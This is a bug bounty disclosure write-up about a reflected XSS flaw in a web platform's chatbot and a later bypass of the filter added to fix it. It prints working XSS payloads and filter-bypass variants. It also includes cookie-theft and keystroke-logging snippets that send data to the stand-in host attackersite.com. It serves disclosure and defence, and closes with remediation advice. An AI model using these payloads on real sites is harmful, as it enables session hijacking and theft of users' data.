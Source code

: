 # Exploiting and Bypassing XSS Protections in a Chatbot

Cross-Site Scripting (XSS) vulnerabilities remain one of the most persistent and dangerous security flaws in web applications. During a bug bounty program, I identified and reported a **Reflected XSS vulnerability** in a chatbot feature of a web platform. The issue was promptly addressed by the development team, but further testing revealed a bypass for their newly implemented XSS filtering mechanism. Below, I will outline both the initial vulnerability and how the bypass was achieved, along with technical insights and recommendations.

---

## Initial Discovery: Reflected XSS in the Chatbot

The chatbot functionality, designed to assist users in navigating the platform, exhibited a flaw that allowed malicious JavaScript injection. This vulnerability enabled the execution of arbitrary scripts in the context of the user's browser.

### Steps to Identify the Issue

1. **Accessing the Chatbot**:

   - The chatbot was embedded on the registration confirmation page and accessible from the bottom-right corner of the screen.

2. **Injecting the Payload**:

   - Using the chatbot's input field, I injected the following payload:
     ````html
     <script><img title="</script><img src onerror=alert(1)>"></script>
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
     <textarea><img title="</textarea><img src onerror=alert(1)>"></textarea>
         ```
     ````
   - The script executed successfully, triggering an alert in the browser.

3. **Advanced Payload Demonstrations**:
   - To demonstrate the severity of the issue, more harmful payloads were tested, including:
     - **Cookie Theft**:
       ```javascript
       var img = new Image();
       img.src = "http://attackersite.com/cookie?c=" + document.cookie;
       ```
     - **Keystroke Logging**:
       ```javascript
       document.onkeypress = function (e) {
         var xhr = new XMLHttpRequest();
         xhr.open("GET", "http://attackersite.com/log?key=" + e.key, true);
         xhr.send();
       };
       ```

### Root Cause

The chatbot's input validation and output rendering failed to sanitize user-provided inputs, allowing HTML and JavaScript injection.

### Reported Timeline

- **Discovery Date:** October 30, 2024
- **Report Submission:** October 30, 2024
- **Triaging Completed:** November 1, 2024
- **Fix Deployed:** November 5, 2024
- **Acknowledgment:** Public thank-you note.

---

## Developer Response: Implementing XSS Filtering

The development team addressed the vulnerability by deploying a stricter input validation mechanism for the chatbot. The implemented filter blocked commonly used XSS payloads, including those containing `<script>` tags or onerror events.

### Tested Filtered Payloads

```html
     <script><img title="</script><img src onerror=alert(1)>"></script>
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <noframes><img title="</noframes><img src onerror=alert(1)>"></noframes>
     <textarea><img title="</textarea><img src onerror=alert(1)>"></textarea>
```

- This payload, designed to trigger an alert using the `onerror` attribute of an image tag, was correctly blocked by the new filter.

While the fix demonstrated a significant improvement, I identified limitations in the filtering logic through further testing.

---

## The Bypass: Exploiting Weaknesses in the XSS Filter

By examining the filtering mechanism, I discovered that it relied heavily on blacklisting specific HTML tags and attributes. This approach left the system vulnerable to less conventional XSS payloads. I developed alternative injection techniques to bypass the protections.

### Bypass Payloads

1. **Tag Alteration**:

   - Introducing unconventional syntax to escape the filter:
     ```html
     <title><title><img title="</title><img src onerror=alert(1)>"></title></title>
     <iframe><iframe><img title="</iframe><img src onerror=alert(1)>"></iframe></iframe>
     <video controls src=<video controls src=validvideo.mp4 onwebkitfullscreenchange=alert(1)>>
     ```
   - The browser interpreted this unconventional tag syntax correctly, allowing the execution of the malicious script.

### Technical Analysis

- The bypass succeeded because the filter failed to account for non-standard syntax and relied on simple string matching to block known malicious patterns.
- The chatbot's rendering engine still processed and executed these malformed tags, highlighting a deeper issue in how the platform interpreted user inputs.

### Reported Timeline

- **Discovery Date of Bypass:** November 25, 2024
- **Report Submission:** November 25, 2024
- **Triaging Completed:** November 26, 2024
- **Fix Deployed:** November 29, 2024
- **Acknowledgment:** Private recognition and thank-you note.

---

## Business Impact

1. **Data Theft**:

   - Reflected XSS vulnerabilities enable attackers to steal sensitive user data, including session tokens and cookies.

2. **Session Hijacking**:

   - Stolen session tokens can be used to impersonate users, escalating privileges if the compromised account belongs to an administrator.

3. **Malicious Actions**:

   - Arbitrary scripts can send unauthorized requests on behalf of the user, modify account settings, or disrupt services.

4. **Reputation Damage**:
   - Exploitation of vulnerabilities on public-facing platforms, especially government or enterprise systems, erodes user trust and damages the platform's reputation.

---

## Recommendations

1. **Input Sanitization**:

   - Strictly sanitize all inputs on both client and server sides to remove or encode special characters such as `<`, `>`, and `&`.

2. **Output Encoding**:

   - Encode all user-generated content before rendering it in the browser to ensure that it is treated as plain text rather than executable code.

3. **Content Security Policy (CSP)**:

   - Implement a strong CSP to restrict the execution of scripts to trusted sources. This serves as an additional layer of protection against XSS attacks.

4. **Server-Side Validation**:

   - Validate all user inputs server-side to ensure consistency and prevent tampering.

5. **Fuzz Testing for Filter Bypasses**:

   - Continuously test input validation mechanisms using automated tools and fuzzing techniques to identify bypass methods.

6. **Logging and Monitoring**:
   - Implement robust logging and monitoring to detect anomalous activities, such as repeated injection attempts or suspicious payloads.

---

## Conclusion

The initial reflected XSS vulnerability in the chatbot demonstrated a critical lapse in input sanitization and output encoding. Although the development team implemented a quick fix to address the issue, the reliance on blacklisting and inadequate fuzz testing allowed for a bypass of the new protections. This case highlights the importance of adopting a multi-layered approach to input validation and security.

Addressing XSS vulnerabilities requires a combination of secure development practices, proactive monitoring, and periodic security assessments. By implementing the recommended fixes, the platform can effectively mitigate these risks and safeguard its users from malicious exploitation.
